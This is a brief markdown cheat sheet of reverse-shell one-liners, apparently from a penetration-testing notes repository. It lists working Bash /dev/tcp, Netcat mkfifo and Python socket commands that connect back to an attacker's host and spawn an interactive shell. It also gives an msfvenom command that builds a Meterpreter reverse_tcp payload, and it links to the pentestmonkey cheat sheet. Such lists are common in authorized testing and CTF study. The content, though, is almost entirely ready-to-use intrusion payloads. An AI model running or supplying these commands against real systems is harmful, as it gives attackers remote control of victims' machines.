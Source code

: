 # Reverse Shells

## Bash
`bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1`


# Netcat

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.80.48 1234 >/tmp/f`


# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin


https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet